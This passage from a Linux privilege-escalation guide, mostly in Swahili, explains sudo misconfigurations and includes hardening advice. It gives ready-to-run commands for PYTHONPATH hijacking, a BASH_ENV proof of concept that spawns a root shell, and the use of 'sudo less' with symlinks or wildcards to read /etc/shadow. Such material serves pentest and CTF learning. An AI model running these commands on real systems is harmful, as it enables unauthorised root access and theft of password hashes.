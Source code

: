 Kiagizo hiki kinamruhusu mtumiaji **set an environment variable** wakati anatekeleza kitu:
```bash
$ sudo -l
User waldo may run the following commands on admirer:
(ALL) SETENV: /opt/scripts/admin_tasks.sh
```
Mfano huu, **iliyotokana na HTB machine Admirer**, ulikuwa **dhaifu** kwa **PYTHONPATH hijacking** ili kupakia maktaba yoyote ya python wakati wa kuendesha script kama root:
```bash
sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```
### BASH_ENV imehifadhiwa kupitia sudo env_keep → root shell

Ikiwa sudoers inahifadhi `BASH_ENV` (mfano, `Defaults env_keep+="ENV BASH_ENV"`), unaweza kutumia tabia ya kuanzisha isiyo ya mwingiliano ya Bash ili kuendesha msimbo wowote kama root unapoiita amri inayoruhusiwa.

- Why it works: Kwa shells zisizo za mwingiliano, Bash inatathmini `$BASH_ENV` na inasoma faili hilo kabla ya kuendesha script lengwa. Kanuni nyingi za sudo zinaruhusu kuendesha script au shell wrapper. Ikiwa `BASH_ENV` imehifadhiwa na sudo, faili yako itasomwa kwa ruhusa za root.

- Mahitaji:
- Kanuni ya sudo utakayoweza kuendesha (lengo lolote linaloitisha `/bin/bash` isiyo ya mwingiliano, au script yoyote ya bash).
- `BASH_ENV` kuwepo katika `env_keep` (angalia kwa `sudo -l`).

- PoC:
```bash
cat > /dev/shm/shell.sh <<'EOF'
#!/bin/bash
/bin/bash
EOF
chmod +x /dev/shm/shell.sh
BASH_ENV=/dev/shm/shell.sh sudo /usr/bin/systeminfo   # or any permitted script/binary that triggers bash
# You should now have a root shell
```
- Hardening:
- Ondoa `BASH_ENV` (na `ENV`) kutoka `env_keep`, tumia `env_reset` badala yake.
- Epuka shell wrappers kwa amri zinazoruhusiwa na sudo; tumia binaries ndogo.
- Fikiria kurekodi I/O ya sudo na kutuma onyo wakati env vars zilizohifadhiwa zinapotumika.

### Sudo execution bypassing paths

**Ruka** kusoma mafaili mengine au tumia **symlinks**. Kwa mfano katika faili ya sudoers: _hacker10 ALL= (root) /bin/less /var/log/\*_
```bash
sudo less /var/logs/anything
less>:e /etc/shadow #Jump to read other files using privileged less
```

```bash
ln /etc/shadow /var/log/new
sudo less /var/log/new #Use symlinks to read any file
```
Ikiwa **wildcard** inapotumika (\*), ni rahisi hata zaidi:
```bash
sudo less /var/log/../../etc/shadow #Read shadow
sudo less /var/log/something /etc/shadow #Red 2 files
```
**Countermeasures**: [https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/](https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/)
